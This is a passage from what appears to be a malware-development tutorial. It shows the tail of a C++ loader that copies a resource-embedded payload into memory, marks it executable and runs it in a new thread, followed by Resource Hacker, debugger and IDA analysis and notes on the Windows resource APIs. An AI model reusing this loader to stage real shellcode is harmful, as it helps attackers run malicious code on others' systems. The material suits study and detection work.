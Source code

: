 ```cpp
    pllen = SizeofResource(NULL, res);

    plmem = VirtualAlloc(0, pllen, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    printf("%s : 0x%p\n", "payload addr", (void *)payload);
    printf("%s : 0x%p\n", "plmem addr", (void *)plmem);
    RtlMoveMemory(plmem, payload, pllen);
    plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
    getchar();

    if ( plbufexec != 0 ) {
            run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
            WaitForSingleObject(run_thread, -1);
    }
    return 0;
}
```
Looking into Resource Hacker

![image](https://hackmd.io/_uploads/rJFwYJkeC.png)

we can easily view as well as  get it from there!

Let's debug it

![image](https://hackmd.io/_uploads/rJJX5kyeR.png)

![image](https://hackmd.io/_uploads/ByCZcJyg0.png)

now let's static analyze it with ida.

![image](https://hackmd.io/_uploads/ByWND-XlC.png)

here there are only few differnces:

1) [FindResourceA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) - "Determines the location of a resource with the specified type and name in the specified module and returns handle to the resource's information block"
```cpp
HRSRC FindResourceA(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);
```
2) [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - "Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory"
```cpp
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```
3) [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) - "Retrieves a pointer to the specified resource in memory"
```cpp
LPVOID LockResource(
  [in] HGLOBAL hResData
);
```
